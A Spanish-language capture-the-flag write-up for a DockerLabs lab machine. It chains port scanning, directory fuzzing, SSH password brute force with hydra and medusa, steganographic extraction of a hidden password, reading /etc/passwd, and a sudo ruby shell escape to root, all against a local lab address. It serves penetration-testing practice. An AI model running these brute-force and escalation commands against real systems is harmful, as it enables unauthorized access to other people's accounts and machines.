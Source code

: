 
> Habilidades: Enumeración, fuerza bruta, escalada de privilegios (linux), esteganografía.


# RECONOCIMIENTO


## Nmap Scan

Realizamos el primer sondeo a la IP de la víctima para averiguar qué puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![Primer_Escaneo](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/Nmap1Scan.png?raw=true)

- `--open`: Mostrar los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.

_____________________________________________________________________________________________________________________________________________________________________

### Enumerar Servicios

Realizamos enumaeración a los puertos abiertos lanzando los scripts predetermiandos e indicando la versión de los servicios. (-sC -sV)
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![Escaneo_Sevicios](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ServicesScan.png?raw=true)

- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.
_____________________________________________________________________________________________________________________________________________________________________

## Http Service


Vemos que el puerto `80` corresponde a un servicio HTTP. Vamos a investigar qué hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extensión de navegador `Wappalyzer`).

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/whatweb.png?raw=true)

Abrimos en navegador y vamos a dicha web. Leemos y podemos ver algo interesante: una nota de `Carlota`.
Siempre reviso el codigo fuente de la web `view-source` por si se me escapa algo interesante.

![despido](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/despidoempleado.png?raw=true)

_____________________________________________________________________________________________________________________________________________________________________

## Fuzzing

El siguiente paso será intentar descubrir posibles directorios. Podemos usar cualquier herramienta de fuzzing; yo usaré `wfuzz` y `gobuster`

### Wfuzz
~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://172.17.0.2/FUZZ
~~~

![wfuzz](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/zfuzz.png?raw=true)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (Not Found)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea


### Gobuster

~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/burp.png?raw=true)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

En ambos casos, no se ha descubierto ningun directorio. :(
_____________________________________________________________________________________________________________________________________________________________________

## Fuerza Bruta

Como obtuvimos dos nombres anteriormente, vamos a intentar hacer fuerza bruta con uno de ellos. En este caso, usaremos dos herramientas diferentes aunque con el mismo resultado.

~~~ bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt -t4 ssh://172.17.0.2
~~~

![hydra](https://i.imgur.com/gHUFhTq.png)


- `-l`: Especifica un nombre.
- `-P`: Especifica una lista de palabras.
- `-t4`: Especifica hilos a usar. (más rapido)
- `ssh`: Especifica el protocolo.

~~~ bash
medusa -h 172.17.0.2 -u carlota -P /usr/share/wordlists/rockyou.txt -M ssh -t 4
~~~
![medusa](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/medusa.png?raw=true)

- `-h`: Especifica la dirección IP del objetivo.
- `-u`: Especifica el nombre de usuario a probar.
- `-P`: Especifica el archivo de lista de contraseñas a utilizar.
- `-M`: Especifica el módulo a utilizar, en este caso SSH.
- `-t 4`: Especifica el número de hilos a utilizar para agilizar el proceso.

__¡¡BINGO!! obtuvimos las credenciales de Carlota.__

_____________________________________________________________________________________________________________________________________________________________________
# Escalada de privilegios

Una vez tenemos acceso, tratamos la TTY para poder usarla comodamente. Para ello cambiaremos el valor de la variable `$TERM`. En este caso, nuestra shell (SSH) ya es interactiva, solo necesitaremos:

~~~ bash
/bin/bash -i
export TERM=xterm
~~~

### Enumeración del Entorno

En primer lugar, veremos si tenemos privilegios sudo mediante `sudo -l`, pero no hay suerte. Seguimos enumerando y vemos una imagen en una carpeta de Carlota.
Vamos a comprobar si tiene información oculta. En primer lugar, nos la descargamos. Lo haremos de `dos modos diferentes`, es bueno saber varias maneras de hacer las cosas ya que no siempre funcionan los mismos métodos.

![estego](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/estego.png?raw=true)

Método 1: SCP
~~~ bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /opt/amor
~~~
![scp](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/scp.png?raw=true)

Método 2: Servidor temporal con Python

Víctima:
~~~ bash
python3 -m http.server 8080
~~~
![httpserver](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/httpserver.png?raw=true)

Atacante:
~~~
wget http://172.17.0.2:8080/imagen.jpg
~~~
![wget](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/wget.png?raw=true)


## Esteganografía y escalada de privilegios
Para comprobar si tiene información oculta o metadatos, usaremos la herramienta `steghide`. Con las opciones `extract` y `sf`, extraemos los metadatos si los hubiera en un archivo.

~~~
steghide extract -sf imagen.jpg
~~~
El contenido del archivo parece estar codificado en base64.

![steg](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/stg.png?raw=true)

Decodificamos con un simple comando.

~~~
cat secret.txt | base64 -d
~~~

![decode](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/decode.png?raw=true)

Probamos la contraseña para escalar a root, pero no hay suerte. Revisamos el archivo `/etc/passwd` para ver los usuarios. Observamos tres usuarios activos: oscar, carlota y root.

~~~
cat /etc/passwd
~~~
![users](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/users.png?raw=true)

Probamos con el usuario Oscar y efectivamente funciona.
~~~
su oscar
whoami
~~~
![changeuser](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/oscar.png?raw=true)

Los siguientes pasos consisten en enumerar al igual que con el usuario Carlota. Tanto directorios, como permisos de archivos y rutas. El primer paso es saber si puede ejecutar sudo con:
~~~
sudo -l
~~~
![nopassword](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/nopasswd.png?raw=true)

Podemos ver que el usuario Oscar puede ejecutar ``/usr/bin/ruby`` como root sin necesidad de contraseña. Ahora vamos a averiguar la manera. Vamos a la web ``GTFOBins``, buscamos ruby y seleccionamos sudo. Leemos atentamente, en este caso buscamos una shell simplemente.

![ruby](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ruby.png?raw=true)
~~~
sudo ruby -e 'exec "/bin/sh"'
whoami
~~~

![root](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/root.png?raw=true)

Pues ya estaría :D



